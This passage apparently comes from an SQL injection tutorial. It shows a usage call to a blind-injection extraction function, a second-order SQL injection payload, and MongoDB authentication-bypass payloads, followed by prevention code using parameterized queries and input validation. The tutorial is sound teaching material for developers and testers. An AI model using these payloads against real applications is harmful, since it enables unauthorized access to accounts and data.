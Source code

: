 ```python

# Usage
result = blind_sqli_extract(
    "http://target.com/search.php",
    "search",
    "SELECT database()"
)
```

## Second-Order SQL Injection

Sometimes injection occurs in a different context than where the payload is inserted.

```sql
-- Step 1: Register user with malicious payload
username: admin'/*

-- Step 2: Payload executes later in different query
SELECT * FROM posts WHERE author='admin'/*' AND status='published'
-- Results in: SELECT * FROM posts WHERE author='admin'
```

## NoSQL Injection

Modern applications using NoSQL databases have their own injection vectors.

```javascript
// MongoDB injection examples
{"username": {"$ne": null}, "password": {"$ne": null}}
{"username": {"$regex": "^admin"}}

// Authentication bypass
{"username": {"$gt": ""}, "password": {"$gt": ""}}
```

## Prevention Strategies

### Parameterized Queries (Prepared Statements)

```php
// PHP PDO example
$stmt = $pdo->prepare("SELECT * FROM users WHERE username = ? AND password = ?");
$stmt->execute([$username, $password]);
```

```python
# Python example
cursor.execute("SELECT * FROM users WHERE username = %s AND password = %s", (username, password))
```

### Input Validation

```python
import re

def validate_input(user_input, input_type):
    if input_type == "numeric":
        return user_input.isdigit()
    elif input_type == "alphanumeric":
        return re.match("^[a-zA-Z0-9]+$", user_input)
    return False
```
